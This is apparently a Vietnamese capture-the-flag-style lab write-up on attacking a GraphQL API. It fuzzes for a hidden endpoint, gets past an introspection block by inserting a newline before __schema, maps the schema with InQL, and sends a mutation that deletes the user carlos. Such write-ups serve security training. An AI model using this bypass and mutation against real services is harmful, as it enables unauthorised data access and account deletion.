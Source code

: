 ## Finding a hidden GraphQL endpoint

1. Ở bài này, API endpoint bị ẩn đi. Thử fuzz bằng danh sách các endpoint graphql thông dụng
```
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
```
Có thể thêm ``/v1`` va
2. Nhận thấy với method GET và endpoint ``/api`` trả về 400 với msg là Query not present -> GraphQL endpoint
3. Get introspection query (standar)
```
query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
4. Response trả về cho biết là introspection not allowed
![image](https://github.com/user-attachments/assets/55c2ca26-adef-4f8b-9e92-3ab7f470eb13)

5. Bypass filter bằng cách thêm newline vào trước ``__schema`` (có thể dev đã filter từ ``__schema{``) thì thành công
![image](https://github.com/user-attachments/assets/8ea2f0b2-1265-45e4-96e5-c8fd8582e3bb)

6. Save phần introspection mới lấy được ở trên rồi insert vào InQL
![image](https://github.com/user-attachments/assets/ef1501b4-3215-4479-9e94-09ff50317149)

7. Dùng query để tìm id của carlos:
![image](https://github.com/user-attachments/assets/107a4fc7-fe26-4fe9-889d-5332e589c8a0)

8. Tạo payload mutation để xóa user carlos (id:3)
![image](https://github.com/user-attachments/assets/cda6e55a-13f0-4b9e-bc5a-cf6430d13fb2)

```
mutation{
	deleteOrganizationUser(input:{id:3}){
		user{
			id
		}
	}
}
```
